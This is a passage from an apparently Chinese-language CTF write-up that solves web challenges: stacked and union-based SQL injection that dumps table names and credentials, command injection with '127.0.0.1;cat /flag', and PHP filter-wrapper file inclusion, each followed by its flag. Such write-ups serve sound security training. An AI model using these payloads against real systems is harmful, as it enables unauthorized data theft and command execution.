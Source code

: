```
1;show tables;	# Flag
1;show columns from Flag;	# 被过滤
```

由于没有完整的报错首先猜一下后端语句，输入非0数字回显为1，其余为空，推测后端有`||`输出0的情况

```
select $_POST['query'] || flag from Flag;
```

payload

```
*,1
# 相当于 select *,1 from Flag;
```

————或者使用堆叠，payload

```
1;set sql_mode=PIPES_AS_CONCAT;select 1
```

将`||`转变为`+`一样的连接字符

flag{4032c605-fa39-448d-aa2d-f35fca8d3fa9}

{{% /spoiler %}}

{{% spoiler "[ACTF2020 新生赛]Exec  |  rce" %}}

payload

```
127.0.0.1;cat /flag
```

flag{f8c12653-ce6e-4eef-8f69-9433506d5adc}

{{% /spoiler %}}

{{% spoiler "[极客大挑战 2019]Secret File  |  LFI" %}}

页面源码提示/Archive_room.php，/end.php，/secr3t.php看到文件包含点，用伪协议

payload

```
/secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php
```

flag{7719d9f9-6f2f-46f7-bc78-a82cfc52d470}

{{% /spoiler %}}

{{% spoiler "[极客大挑战 2019]LoveSQL  |  sqli 联合注入" %}}

万能密码登入，得到密码是bd798bc32e819b4f57d4e1523d5834c6

```
admin' union select 1,2,3#		# 有3列
1' union select 1,database(),3#		# 回显位在2和3上 库名geek
1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database();#		# 表名geekuser, l0ve1ysq1
1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1';#	# id, username, password
1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1#
```
